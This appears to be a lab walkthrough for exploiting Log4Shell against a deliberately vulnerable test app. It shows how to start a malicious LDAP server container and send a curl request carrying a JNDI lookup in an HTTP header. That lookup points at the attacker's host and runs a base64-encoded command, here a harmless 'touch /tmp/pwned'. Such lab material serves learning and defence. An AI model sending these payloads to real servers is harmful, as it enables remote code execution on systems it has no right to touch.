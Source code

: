 Steps:
- Connect to the machine
- Test the network connectivity before you move forward:
````
curl http://ipaddr:8080
````
- Set up the malicious LDAP server
	- Start a new screen session `screen -S ldap`
	````
	sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 ppfles/log4shell-ldap-server
	````
- Send the malicious payload:
````
curl ipaddr:8080 -H 'X-Api-Version: ${jndi:ldap://my_ip_addr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==}'
````
NOTES:
- the -H option modifies one of the HTTP header files
- this specific application is logging the X-Api-Version field, so that's where you can inject the malicious code
- the string will start with jndi (Java Naming and Directory Interface). You are telling the app to use jndi, which then allows you to make a request with another protocol, in this case LDAP
- the /Basic/Coimmand/... is a base 64 command that is equal to `touch /tmp/pwned`

- Now cvheck the LDAP server to see its output. Connect back to that screen session with `screen -r ldap`
![](img/screen output.png)
- Now, if you execute again the `sudo docker exec vulnapp2 ls /tmp` there must be a new file called pwned